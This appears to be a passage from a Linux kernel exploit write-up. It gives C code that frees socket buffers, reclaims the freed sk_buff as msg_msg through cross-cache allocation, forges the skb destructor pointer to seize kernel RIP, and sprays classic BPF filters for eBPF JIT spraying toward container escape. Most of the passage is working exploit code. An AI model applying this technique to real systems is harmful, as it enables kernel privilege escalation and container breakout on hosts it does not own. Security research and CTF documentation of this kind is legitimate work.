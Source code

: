 * Free them all and reclaim as msg_msg
```c
		// free all skbs
		for (int i = 0; i < 0x200; i++)
			SYSCHK(recv(datafd[0], buf, 1, 0));

		// free all skbs
		for (int i = 0; i < 0x200; i++)
			SYSCHK(recv(datafd[1], buf, 1, 0));

		// cross-cache to reclaim oob_skb as msg_msg
		for (int i = 0; i < 0x1000; i++)
			SYSCHK(msgsnd(msqid[i], &msg, 0x100 - 0x30, 0));
```

* Forge skb to make users equal to one and destructor as the address we want to jump to

```c
	char *skb = (void *)&msg.mtext[-0x30];

	// struct sk_buff {
	//     void       (*destructor)(struct sk_buff *); /*    96     8 */
	//     refcount_t                 users;                /*   220     4 */
#define OFFSET_SKB_DESTRUCTOR 96
#define OFFSET_SKB_USERS 220
	*(size_t *)(skb + OFFSET_SKB_DESTRUCTOR) = 0xffffffffcc000000 - 0x800;
	*(unsigned *)(skb + OFFSET_SKB_USERS) = 1;
```

## RIP Control
We set `skb->destructor` to guessed ebpf JIT address.

```c
void skb_release_head_state(struct sk_buff *skb)
{
	skb_dst_drop(skb);
	if (skb->destructor) {
		DEBUG_NET_WARN_ON_ONCE(in_hardirq());
		skb->destructor(skb);
	}
```


## Achieve container escape
### Spray eBPF programs
Our goal is to do some eBPF JIT spraying so later when we control kernel RIP, it will jump to the JIT page and execute our shellcode.

Linux kernel provide a socket option `SO_ATTACH_FILTER` and let user to attach a classic BPF program to the socket for use as a filter of incoming packets.

By creating lots of sockets and attach to classic BPF program, we can spray a lot of eBPF programs in kernel.
```cpp
    struct sock_fprog prog = {
        .len =  TSIZE,
        .filter = filter,
    };
    for(int i=0;i<NUM;i++){
        int fd[2];
        SYSCHK(socketpair(AF_UNIX,SOCK_DGRAM,0,fd));
        SYSCHK(setsockopt(fd[0],SOL_SOCKET,26,&prog,sizeof(prog)));
    }
```
